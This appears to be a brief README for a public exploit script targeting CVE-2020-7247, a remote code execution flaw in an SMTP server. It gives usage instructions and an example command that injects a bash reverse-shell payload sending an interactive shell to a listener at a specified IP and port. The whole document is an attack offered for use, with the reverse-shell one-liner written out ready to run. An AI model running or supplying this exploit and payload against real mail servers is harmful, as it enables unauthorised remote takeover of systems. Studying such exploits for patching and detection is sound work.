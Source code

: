 # SMTPython

smtp exploit script

CVE-2020-7247

RemoteCodeExecution


usage:

./SMTPython.py <RemoteHOST> <PORT> <Command> <name host>
  
example:


./SMTPython.py 192.168.0.4 25 'bash -c "exec bash -i &> /dev/tcp/192.168.1.104 4444 <&1"' user@ubuntu

